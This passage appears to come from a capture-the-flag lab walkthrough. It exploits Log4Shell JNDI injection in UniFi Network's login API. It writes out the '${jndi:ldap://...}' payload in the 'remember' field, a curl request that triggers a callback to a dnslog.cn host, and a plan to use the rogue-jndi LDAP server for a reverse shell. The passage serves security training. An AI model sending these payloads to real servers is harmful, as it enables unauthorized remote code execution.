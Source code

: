 According the article above, we must use the `remember` parameter for injecting our payload to UniFi Network software. Our payload must be injected as the following form `${jndi:ldap://10.10.14.4/whatever}` so, since the Content-Type of the request is JSON, we must be sure that this payload was not parsed as JSON object. For doing this, we can enclose it by double quotes so it is seen as a string and not as a JSON object like: `"remember":"${jndi:ldap://10.10.14.4/whatever}"

If the request inside the payload causes the server to connect back to us, then we have verified that the application
is vulnerable.

<details><summary>Click here to show JNDI and LDAP definition</summary></details>

In our case, we can directly inject the payload by Burpsuite, but first we need to listen on port `389` (LDAP):
```
$ sudo tcpdump -i tun0 port 389
```
Then, we can inject our test payload on Burp Repeater:
```
<SNIP>
{
    "username":"test",
    "password":"toast",
    "remember":"${jndi:ldap://10.10.14.4/whatever}",
    "strict":true
}
```
Despite the HTTP response has not useful information, from `tcpdump` we can see that our machine contacted the target and the target answered to us. It means that `remember` parameter is vulnerable.

According to the article above, in a general case we can also test the vulnerability of a parameter by using cURL for grabbing a hostname from [dnslog.cn](dnslog.cn). So, connect to [dnslog.cn](dnslog.cn) and click on `Get SubDomain` button. Take the output and insert it in the payload of the following cURL command:
```
$ curl -i -s -k -X POST -H $'Host: 10.129.170.62:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"test\",\"password\":\"toast\",\"remember\":\"${jndi:ldap://l47jom.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.170.62:8443/api/login'
```
Note: in our case this command does not work because the target machine cannot go out to Internet, so cannot contact dnslog.cn.

However, now that we know there is a vulnerable parameter, we can try to get a Remote Code Execution or a Reverse Shell, so we can interact with the underlying Linux operating system by `rogue-jndi` tool from the GitHub repository: https://github.com/veracode-research/rogue-jndi

**Rogue-JNDI** is a malicious LDAP server for JNDI injection attacks. The GitHub project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.

So, rogue-jndi is a LDAP server we must run on our attacker machine. For working, it needs of Open-JDK and Maven installed on our machine, so install them and clone rogue-jndi repository.

<details><summary>Click here to show Open-JDK and Maven definition</summary></details>

These two applications will also help us run the rogue-jndi Java application, which starts a local LDAP server
and allows us to receive connections back from the vulnerable server and execute malicious code. In particular, they allow us to build rogue-jndi Java application to get the related `.jar` file.
